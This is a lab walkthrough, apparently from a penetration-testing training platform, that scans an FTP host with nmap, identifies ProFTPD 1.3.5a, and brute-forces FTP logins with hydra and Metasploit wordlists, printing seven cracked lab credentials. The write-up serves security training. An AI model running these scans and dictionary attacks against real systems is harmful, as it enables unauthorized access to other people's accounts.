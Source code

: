 > FTP port 21 open

```bash
root@attackdefense:~# nmap 192.184.96.3   
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 02:19 UTC
Nmap scan report for target-1 (192.184.96.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:C0:B8:60:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

> 1. What is the version of FTP server?

**Answer:** `ProFTPD 1.3.5a`

```
Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
root@attackdefense:~# nmap -sV 192.184.96.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 02:19 UTC
Nmap scan report for target-1 (192.184.96.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
MAC Address: 02:42:C0:B8:60:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
```

> 2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common\_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt to check if any of these credentials work on the system. List all found credentials.

```bash
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.184.96.3 ftp
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-27 02:23:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.184.96.3:21/
[21][ftp] host: 192.184.96.3   login: sysadmin   password: 654321
[21][ftp] host: 192.184.96.3   login: rooty   password: qwerty
[21][ftp] host: 192.184.96.3   login: demo   password: butterfly
[21][ftp] host: 192.184.96.3   login: auditor   password: chocolate
[21][ftp] host: 192.184.96.3   login: anon   password: purple
[21][ftp] host: 192.184.96.3   login: administrator   password: tweety
[21][ftp] host: 192.184.96.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-27 02:24:15
```
